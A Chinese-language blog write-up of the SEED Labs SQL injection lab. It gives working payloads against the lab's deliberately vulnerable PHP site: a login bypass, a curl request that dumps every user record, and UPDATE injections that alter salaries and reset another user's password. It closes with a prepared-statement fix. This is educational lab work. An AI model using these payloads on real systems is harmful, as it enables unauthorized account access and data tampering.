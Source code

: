 ```yaml
---
layout: post
title:  "【SEED Labs】SQL injection"
date:   2021-07-25 00:00:00 +0800
categories: 实验
tags: SEEDLab 安全
comments: 1
mathjax: true
copyrights: 原创
---
```


本文为 [SEED Labs 2.0 - SQL Injection Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Web/Web_SQL_Injection/) 的实验记录。

# 实验原理

SQL注入攻击通过构建特殊的输入作为参数传入Web应用程序，而这些输入大都是SQL语法里的一些组合，通过执行SQL语句进而执行攻击者所要的操作，它目前是黑客对数据库进行攻击的最常用手段之一。

# Task 1: Get Familiar with SQL Statements

启动 docker

```shell
dcbuild
dcup
```

然后进入 mysql 程序

```shell
dockps
docksh **
mysql -u root -p dees
```

> After running the commands above, you need to use a SQL command to print all the profile information of the employee Alice.

```mysql
use sqllab_users;
show tables;
desc credential;
select * from credential where Name='Alice'
```

<img src="https://i.loli.net/2021/07/24/Oz14IRuBaf3ZENS.png" alt="image-20210722144514099" style="zoom:50%;" />

# Task 2: SQL Injection Attack on SELECT Statement

## Task 2.1: SQL Injection Attack from webpage

打开 [seed-server.com](http://www.seed-server.com/)

观察 unsafe home.php，看到里面有如下判断

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
        nickname, Password
        FROM credential
        WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

我们只需要把判断 Password 的部分屏蔽即可

```
admin';#
```

<img src="https://i.loli.net/2021/07/24/AzXs2vQFEPSoLiY.png" alt="image-20210722145300064" style="zoom:50%;" />

## Task 2.2: SQL Injection Attack from command line

转换一下 url 编码即可

```shell
curl 'www.seed-server.com/unsafe_home.php?username=%27%3b%23'
```

得到

<img src="https://i.loli.net/2021/07/24/oYJ9Ep5a6I7GnsN.png" alt="image-20210722150454000" style="zoom:50%;" />

看到已经显示了所有用户信息

## Task 2.3: Append a new SQL statement

注入

```plain text
Alice'; update credential set name=A where ID=1;#
```

可以看到注入不成功

<img src="https://i.loli.net/2021/07/24/EuwMNsmyAal3YjC.png" alt="image-20210722150917741" style="zoom:67%;" />

# Task 3: SQL Injection Attack on UPDATE Statement

## Task 3.1: Modify your own salary

进入 Alice 修改个人资料的页面

观察 unsafe edit backend.php，看到有如下判断

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
        nickname=’$input_nickname’,
        email=’$input_email’,
        address=’$input_address’,
        Password=’$hashed_pwd’,
        PhoneNumber=’$input_phonenumber’
        WHERE ID=$id;";
$conn->query($sql);
```

注入

```
',salary='30000' where ID=1;#
```

<img src="https://i.loli.net/2021/07/24/gGiR6Q3UlqtF7Zk.png" alt="image-20210722153947448" style="zoom: 50%;" />

## Task 3.2: Modify other people’s alary

这个和上面的几乎一模一样，比如我们把 Boby 的薪水改成 114514

```
',salary='114514' where ID=2;#
```

<img src="https://i.loli.net/2021/07/24/pkiohbyqBA8dsE5.png" alt="image-20210722154549727" style="zoom:50%;" />

看到已经改掉了

<img src="https://i.loli.net/2021/07/24/yMn3oTgsl5bmjAQ.png" alt="image-20210722154726908" style="zoom:50%;" />

## Task 3.3: Modify other people’s password

查看代码，看到密码采用的是 sha1，我们随便找个在线转换网站转换一下就好了。

<img src="https://i.loli.net/2021/07/24/J1tbDONHnlpdCMr.png" alt="image-20210722155151501" style="zoom: 67%;" />

然后注入

```
',Password='1f82c942befda29b6ed487a51da199f78fce7f05' where ID=1;#
```

<img src="https://i.loli.net/2021/07/24/GAreWY3vmxCNyaj.png" alt="image-20210722155300581" style="zoom:50%;" />

然后现在可以用密码 `888888` 成功登录 Alice 账号。

# Task 4: Countermeasure — Prepared Statement

登录 [seed-server.com/defense](http://www.seed-server.com/defense/)

这里我们需要将参数与查询分离。修改 unsafe.php，做如下改动

```php
$stmt = $conn->prepare("SELECT id, name, eid, salary, ssn
						FROM credential
						WHERE name = ? and Password = ? ");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);
$stmt->execute();
$stmt->bind_result($id, $name, $eid, $salary, $ssn);
$stmt->fetch();
```

<img src="https://i.loli.net/2021/07/24/YtBRjOc6n715wDI.png" alt="image-20210724202537000" style="zoom:50%;" />

可以看到，攻击失败了

<img src="https://i.loli.net/2021/07/24/CFiGfJ219y7SDIB.png" alt="image-20210724201943781" style="zoom:50%;" />

# 实验总结

实验属于最简单的 SQL injection。主要的收获在于最后一个 Task，以前只知道怎么注入，很少研究过怎么防御。

